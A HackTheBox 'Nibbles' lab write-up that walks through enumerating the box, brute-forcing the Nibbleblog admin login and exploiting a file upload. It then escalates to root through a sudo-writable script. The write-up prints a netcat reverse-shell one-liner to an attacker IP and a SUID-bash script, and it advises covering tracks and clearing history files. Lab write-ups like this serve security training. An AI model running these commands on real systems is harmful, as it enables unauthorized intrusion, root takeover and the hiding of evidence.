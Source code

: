 ## Hackthebox 		Nibbles (10.129.3.40)


### Enumeration

I'll start off with an nmap scan and we notice only ports 22 ssh, and 80 web are open.


	22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
	|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
	|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
	80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
	Aggressive OS guesses: Linux 3.16 (96%), Linux 3.18 (96%), Linux 3.2 - 4.9 (96%), Linux 4.2 (96%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%)
	No exact OS matches for host (test conditions non-ideal).
	TCP/IP fingerprint:
	SCAN(V=7.94SVN%E=4%D=10/3%OT=22%CT=%CU=38158%PV=Y%DS=2%DC=T%G=N%TM=66FEE817%P=aarch64-unknown-linux-gnu)
	SEQ(SP=FC%GCD=1%ISR=109%TI=Z%CI=I%TS=3)
	SEQ(SP=FC%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)
	OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
	WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
	ECN(R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)
	T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
	T2(R=N)
	T3(R=N)
	T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
	IE(R=Y%DFI=N%T=40%CD=S)

	Uptime guess: 0.699 days (since Wed Oct  2 21:07:09 2024)
	Network Distance: 2 hops
	TCP Sequence Prediction: Difficulty=252 (Good luck!)
	IP ID Sequence Generation: All zeros
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	TRACEROUTE (using port 80/tcp)
	HOP RTT      ADDRESS
	1   61.98 ms 10.10.14.1
	2   62.02 ms 10.129.3.40

	Read data files from: /usr/share/nmap
	OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

### Further enum - next I'll run an nmap vuln scan against port 80 followed by an nmap script http scan.

nmap --script= vuln -T4 -oN nmap-vuln-scan.nmap 10.129.3.40

nmap --script- http-* -T4 -oN nmap-http-scan.nmap 10.129.3.40

![website](/Nibbles/images/nibbles.png) 

The website just says 'hello world' I looks to be an apache server v 2.4

My nmap vuln scan didn't return any useful results however, when I was waiting it to finish I viewed the source code of the web page and found there is a /nibbleblog/ directory. And it is a working directory.

![website](/Nibbles/images/source.png) 

I also found a readme page that shows us it's running nibbleblog v 4.0.3

![website](/Nibbles/images/readme.png) 

These were all the directories that returned a 200 response after running a gobutser scan.

![website](/Nibbles/images/dir-enum.png) 

Under the /content/private directory I found a users.xml file that had a username of admin.

![website](/Nibbles/images/users.png) 

Since I know there is an admin user and I can't find a password I decided to run cewl against the site to generate an uppercase and lowercase wordlist.

![website](/Nibbles/images/cewl.png) 

![website](/Nibbles/images/cewl2.png) 

Next, I'll caputer one of the post requests with burp and send it to intrude and set the payload value to password and run my wordlists and see if I get any hits. Just load the word list and make sure payload is set on the password variable and hit Start attack.


![website](/Nibbles/images/burp.png) 

![website](/Nibbles/images/burp2.png) 

Oops it looks like a triggered a security mechanism to prevent brute force attacks against the website however, I did get a 200 response from the password Nibbles before I got blacklisted LOL. I might have to wait a while or just reset the box but now I have a working username and password. This is one thing to watch out for when brute forcing websites and services.

![website](/Nibbles/images/200.png) 

![website](/Nibbles/images/admin.png) 

After waiting a bit I was able to login to the admin page.

![website](/Nibbles/images/login.png) 

Using searchsploit I find that there's also a metasploit file upload vulnerability and it's for the version we have 4.0.

![website](/Nibbles/images/foothold.png) 

### Foothold

I did finally get the metasploit module working and I'll show that really quick. But you can also upload a php reverse shell through the plugins --> My image --> upload. and then just go to /content/private/images/<shell name>. But heres the metaslpoit way.

With these options set we should get a shell.

![website](/Nibbles/images/metasploit.htb) 


Well need to set the following options for the module. And we can try and run it and see if we get a shell.

![website](/Nibbles/images/shell.png) 


### Privilege Escalation

We do get a shell as the user nibbler. We can now grab the user.txt flag and running sudo -l shows

	User nibbler may run the following commands on Nibbles:
	    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


there is no personal directory but there is a personal.zip file if we unzip it it creates the /personal/stuff/monitor.sh path and shell.

if we just echo this to monitor.sh is should give us a root shell.

	#!/bin/bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.240 1234 >/tmp/f


![foothold](/Nibbles/images/pre-root.png) 

Now I'll set a netcat lister on port 1234 on my attack box and run sudo /home/nibbler/personal/stuff/monitor.sh and it should give us a root shell.

And we do get a root shell and can now grab the root.txt flag.

![foothold](/Nibbles/images/root.png) 

Now if you're going for your OSCP and don't want to burn your metasploit useage or have already used it there is another way to get a shell with out Metasploit.

We can use our credentials of admin:nibbles to login to the admin page. Go to plugins --> my image --> unload a php reserse shell on the host. It will throw a lot of errors but it does work. If you are on kali a good one is at /usr/share/webshells/php/.

Once the php file is uploaded if we go to /nibbleblog/content/private/plugins/my_image we should find our reverse shell and make sure you have a listener set up and click on the image file to spawn the shell.

![foothold](/Nibbles/images/plugin.png) 

![foothold](/Nibbles/images/alt.png) 

We can also try something else for priv esc. Instead of writing a reverse shell to monitor.sh which might flag us flags by network EDR's we can try a script like the following:

	$!/bin/bash

	/bin/chmod u+s /bin/bash && /bin/cp /bin/bash /tmp/bash

In theory after we execute monitor.sh it should set the u & s bits on bash and them copy it to tmp. From there we can either cd to the tmp directory or just /tmp/bash -p to get root privileges on the host.

![foothold](/Nibbles/images/chmod.png) 

It definitely copied /bin/bash to the temp directory but that isn't all we wanted. I modified our script a litle bit. Let's see if it will work now.

![foothold](/Nibbles/images/modify.png) 

Still no luck, However, checking the permissions of /bin/bash it did get the s system varible added to it so we should just be able to execute /bin/bash -p and still get a root shell. It didn't copy it to /tmp with the permissions set like we wanted but still just executing /bin/bash -p does give us root on the box. 

![foothold](/Nibbles/images/root2.png) 

Don't forget to cleanup all the scripts and bash binaries we left in /tmp before leaving. Don't wanna leave too many footprints lazying around ;) 

I copied the personal.zip file to my attack machine before I started messing around with it on the target, also that way I could replace it later. I deleted the /personal /stuff directories it made under the nubbler user and all the binaries in /tmp. Back to personal.zip in nibbler directory. We're on our way to coverying all our tracks. Don't forget about those history files either. Welp that's all for now.

![foothold](/Nibbles/images/cleanup.png) 
